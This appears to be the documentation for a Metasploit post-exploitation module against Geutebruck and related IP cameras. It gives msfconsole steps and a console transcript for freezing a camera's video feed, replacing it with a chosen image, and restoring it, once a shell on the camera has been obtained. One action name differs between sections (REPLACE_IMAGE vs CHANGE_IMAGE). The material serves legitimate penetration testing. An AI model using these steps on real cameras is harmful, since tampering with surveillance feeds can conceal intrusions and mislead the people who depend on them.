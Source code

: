 ## Vulnerable Application

The following [Geutebruck](https://www.geutebrueck.com) products using firmware versions <= 1.12.0.27,
firmware version 1.12.13.2 or firmware version 1.12.14.5:

* Encoder and E2 Series Camera models:
  * G-Code:
    * EEC-2xxx
  * G-Cam:
    * EBC-21xx
    * EFD-22xx
    * ETHC-22xx
    * EWPC-22xx

Many brands use the same firmware:

  * UDP Technology (which is also the supplier of the firmware for the other vendors)
  * Ganz
  * Visualint
  * Cap
  * THRIVE Intelligence
  * Sophus
  * VCA
  * TripCorps
  * Sprinx Technologies
  * Smartec
  * Riva

This module has been tested on a Geutebruck 5.02024 G-Cam EFD-2250 running the latest firmware version 1.12.0.27.

### Description

This module will take an existing session on a vulnerable Geutebruck Camera and will allow the user to either
freeze the camera and display the last image from the video stream, display an image on the camera, or restore
 the camera back to displaying the current feed/stream.

Users can find additional details of the related vulnerabilities on the
blogpost page at https://www.randorisec.fr/udp-technology-ip-camera-vulnerabilities/.

## Verification Steps
### Freezing camera stream on the current image
  1. Launch `msfconsole`
  2. Get a shell using one of the published Getebruck exploits
  3. Do: `use post/linux/manage/geutebruck_post_exp`
  4. Do: `set SESSION <session number of the Geutebruck shell>`
  5. Do: `set action FREEZE_CAMERA`
  6. Do: `run`
  7. The image should be frozen

### Replacing camera stream with a custom image
  1. Launch `msfconsole`
  2. Get a shell using one of the published Getebruck exploits
  3. Do: `use post/linux/manage/geutebruck_post_exp`
  4. Do: `set SESSION <session number of the Geutebruck shell>`
  5. Do: `set action REPLACE_IMAGE`
  6. Do: `set IMAGE /local/image/path/to/upload`
  7. Do: `run`
  8. The image should be replaced by the custom one

### Restoring the current camera stream
  1. Launch `msfconsole`
  2. Get a shell using one of the published Getebruck exploits
  3. Do: `use post/linux/manage/geutebruck_post_exp`
  4. Do: `set SESSION <session number of the Geutebruck shell>`
  5. Do: `set action RESUME_STREAM`
  6. Do: `run`
  7. The stream should be resumed

## Scenarios
### Geutebruck 5.02024 G-Cam EFD-2250 running firmware version 1.12.0.27.
```
msf6 > use post/linux/manage/geutebruck_post_exp
msf6 post(linux/manage/geutebruck_post_exp) > show options

Module options (post/linux/manage/geutebruck_post_exp):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   IMAGE                     no        Full path to the local copy of the image to upload
   SESSION                   yes       The session to run this module on.


Post action:

   Name           Description
   ----           -----------
   FREEZE_CAMERA  Freeze the camera and display the last image taken from the video stream


msf6 post(linux/manage/geutebruck_post_exp) > show actions

Post actions:

   Name           Description
   ----           -----------
   CHANGE_IMAGE   Display an arbitrary image instead of the video stream
   FREEZE_CAMERA  Freeze the camera and display the last image taken from the video stream
   RESUME_STREAM  Resume the camera's video stream and display the current live feed

msf6 post(linux/manage/geutebruck_post_exp) > set IMAGE /var/randori.jpg
IMAGE => /var/randori.jpg
msf6 post(linux/manage/geutebruck_post_exp) > set action CHANGE_IMAGE
action => CHANGE_IMAGE
msf6 post(linux/manage/geutebruck_post_exp) > set session 1
session => 1
msf6 post(linux/manage/geutebruck_post_exp) > run

[!] SESSION may not be compatible with this module.
[*] -- Starting action --
[*] Uploading a custom image...
[*] Backing up the original main.js...
[*] Using the new main.js...
[*] Done! The stream should be replaced by your image!
[*] Post module execution completed
msf6 post(linux/manage/geutebruck_post_exp) > set action FREEZE_CAMERA
action => FREEZE_CAMERA
msf6 post(linux/manage/geutebruck_post_exp) > run

[!] SESSION may not be compatible with this module.
[*] -- Starting action --
[*] Taking a snapshot of the current stream to use as the static image to freeze the stream on...
[*] Freezing the stream on the captured image...
[*] Backing up the original main.js...
[*] Using the new main.js...
[*] Stream frozen!
[*] Post module execution completed
msf6 post(linux/manage/geutebruck_post_exp) > set action RESUME_STREAM
action => RESUME_STREAM
msf6 post(linux/manage/geutebruck_post_exp) > run

[!] SESSION may not be compatible with this module.
[*] -- Starting action --
[*] Restoring image.fcgi...
[*] Restoring main.js backup...
[*] Restored! Stream back to a normal state.
[*] Post module execution completed
```